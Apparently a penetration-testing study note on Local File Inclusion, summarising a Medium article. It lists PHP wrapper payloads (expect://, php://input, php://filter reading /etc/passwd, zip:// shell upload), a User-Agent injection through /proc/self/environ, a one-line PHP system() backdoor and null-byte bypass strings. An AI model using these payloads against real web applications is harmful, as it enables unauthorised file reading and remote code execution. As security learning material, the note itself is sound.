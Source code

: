 # HTB
# Medium article
https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
## Key Takeaways
### PHP Wrappers
#### expect
PHP expect:// allows execution of system commands, unfortunately the expect PHP module is not enabled by default.
```
www.example.com?page=expect://ls
```
#### input
The payload is sent in a POST request to the server such as:
```
www.example.com?page=php://input&cmd=ls
```
#### filter
php://filter allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
```
www.example.com?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

php://filter can also be used without base64 encoding the output using:
```
www.example.com?page=php://filter/resource=/etc/passwd
```
#### zip
The zip wrapper processes uploaded .zip files server side allowing a penetration tester to upload a zip file using a vulnerable file upload function and leverage he zip filter via an LFI to execute. A typical attack example would look like:

1. Create a PHP reverse shell

2. Compress to a .zip file

3. Upload the compressed shell payload to the server

4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell

5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

If the file upload function does not allow zip files to be uploaded, attempts can be made to bypass the file upload function (see: OWASP file upload testing document).

### /proc/self/environ
If it’s possible to include /proc/self/environ via a local file inclusion vulnerability, then introducing source code via the User Agent header is a possible vector. Once code has been injected into the User Agent header a local file inclusion vulnerability can be leveraged to execute /proc/self/environ and reload the environment variables, executing your reverse shell.
#### Useful Shells

Useful tiny PHP back doors for the above techniques:
```
<? system(‘uname -a’);?>
```
### Null Byte
Null byte injection bypasses application filtering within web applications by adding URL encoded “Null bytes” such as %00. Typically, this bypasses basic web application blacklist filters by adding additional null characters that are then allowed or not processed by the backend web application.

Some practical examples of null byte injection for LFI:
```
    vuln.php?page=/etc/passwd%00

    vuln.php?page=/etc/passwd%2500
```

# GitHub payload list
https://github.com/payloadbox/rfi-lfi-payload-list